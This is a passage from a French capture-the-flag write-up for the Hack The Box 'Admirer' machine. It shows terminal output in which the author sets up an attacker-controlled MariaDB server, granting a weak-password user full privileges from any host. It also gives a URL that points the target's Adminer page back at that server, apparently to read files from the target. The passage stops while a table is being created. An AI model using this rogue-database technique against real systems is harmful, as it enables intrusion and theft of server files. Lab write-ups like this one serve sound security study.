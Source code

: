 Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE USER '0xSs0rZ'@'localhost' IDENTIFIED BY 'pass';
Query OK, 0 rows affected (0.002 sec)

MariaDB [(none)]> CREATE DATABASE test
    -> ;
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| test               |
+--------------------+
4 rows in set (0.001 sec)

MariaDB [(none)]> GRANT ALL ON *.* TO '0xSs0rZ'@'localhost';
Query OK, 0 rows affected (0.001 sec)

#Accepter les connections entrantes depuis n'importe ou
MariaDB [(none)]> GRANT ALL ON *.* TO '0xSs0rZ'@'%' IDENTIFIED BY 'pass';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> quit
Bye
root@Host-001:~/Bureau/htb/Admirer# vim /etc/mysql/mariadb.conf.d/50-server.cnf 
root@Host-001:~/Bureau/htb/Admirer# systemctl restart mysql
root@Host-001:~/Bureau/htb/Admirer# nmap 127.0.0.1 -p 3306
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 14:10 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000088s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds
root@Host-001:~/Bureau/htb/Cache# 
~~~

http://10.10.10.187/utility-scripts/adminer.php?server=10.10.14.59&username=0xSs0rZ&db=test

On se connecte à Adminer avec les infos suivantes

~~~
System: MySQL
Server: IP TUN0 ex: 10.10.10.X
Username: 0xSs0rZ
Password: pass
Database: test
~~~

Creer une table 'test' dans la db 'test'

~~~
MariaDB [test]> CREATE table test(test VARCHAR(10000));